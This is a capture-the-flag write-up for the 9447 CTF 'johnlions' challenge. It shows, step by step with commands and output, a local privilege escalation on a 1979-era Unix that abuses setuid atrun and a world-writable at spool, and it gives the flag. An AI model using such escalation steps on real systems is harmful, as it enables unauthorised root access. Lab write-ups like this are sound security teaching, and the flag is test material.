 #9447 CTF - johnlions (writeup)


####Description

 - johnlions (250pts)
 - telnet johnlions.9447.plumbing
 - login ctf


####Playing

The first thing done was to list the content of current dir. This revealed the precious flag, but as expected I couldn't read it.  
```
$ ls -la
total 134
drwxrwxr-x 9 root      272 Sep 22 06:38 .
drwxrwxr-x 9 root      272 Sep 22 06:38 ..
drwxrwxr-x 2 bin      2512 Sep 22 06:38 bin
-rwxr-xr-x 1 bin      8986 Jun  8  1979 boot
drwxrwxr-x 2 bin       208 Sep 22 05:56 dev
drwxrwxr-x 2 bin       336 Sep 22 06:24 etc
-r-------- 1 root       28 Sep 22 06:25 flag
drwxrwxr-x 2 bin       320 Sep 22 05:33 lib
drwxrwxr-x 2 root       96 Sep 22 05:46 mdec
drwxrwxrwx 2 root      112 Sep 22 06:36 tmp
-rwxr-xr-x 1 root    51982 Jun  8  1979 unix
drwxrwxr-x12 root      208 Sep 22 05:58 usr
$ cat flag
cat: can't open flag
```

The next thing done was to look for suid binaries and check if some of them can be used to 
escalate privileges.

```
$ find / -user root -perm -4000 -print
/bin/mv
/bin/login
/bin/mail
/bin/mkdir
/bin/newgrp
/bin/passwd
/bin/su
/bin/rmdir
/usr/lib/atrun
```


The /usr/lib/atrun seemed an interesting vector, it runs jobs queued by 'at'. This was abused in the past to execute commands as root. The attack is possible because the /usr/spool/at is writable by anyone. What is needed is to create a file in a specific format in this directory and wait for atrun to execute it. We can create a link to a file owned by root and try to inject our commands there.

#### The attack

Create the link
```
$ ln /usr/spool/mail/root /usr/spool/at/88.265.0824.21
```

Now send a mail to root with the command you want to execute
```
$ mail root
chmod 777 /flag
```

Wait and see the result
```
$ ls -la /flag
-rwxrwxrwx 1 root       28 Sep 22 06:25 /flag
$ cat /flag
9447{h4cking_like_its_1979}
```

###The flag: 9447{h4cking_like_its_1979}

